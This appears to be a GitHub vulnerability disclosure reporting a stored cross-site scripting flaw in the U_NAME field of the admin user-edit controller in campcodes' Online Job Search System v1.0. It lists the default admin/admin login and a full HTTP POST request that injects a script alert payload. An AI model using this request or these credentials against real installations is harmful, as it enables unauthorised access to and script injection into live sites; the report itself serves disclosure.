 # Complete Online Job Search System v1.0 by campcodes.com has Cross-Site Scripting (XSS)

**Vul_Author**: **Liyu Chen**

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/user/controller.php

Vulnerability location: /eris/admin/user/controller.php?action=edit, U_NAME

[+] Payload: <script>alert(1)</script>

Tested on Windows 10, phpStudy

There is an example with alert: 

```sql
POST /eris/admin/user/controller.php?action=edit HTTP/1.1
Host: 10.10.10.134
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 142
Origin: http://10.10.10.134
DNT: 1
Connection: close
Referer: http://10.10.10.134/eris/admin/user/index.php?view=edit&id=2018001
Cookie: PHPSESSID=vf7g6ffd2s4el0u0gia3elgg14
Upgrade-Insecure-Requests: 1

USERID=2018001&deptid=&U_NAME=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&deptid=&U_USERNAME=Narciso&deptid=&U_PASS=123&U_ROLE=Administrator&save=
```

![](https://github.com/chen-liyu/bug_report/blob/main/vendors/campcodes.com/online-job-search-system/xss.gif?raw=true)

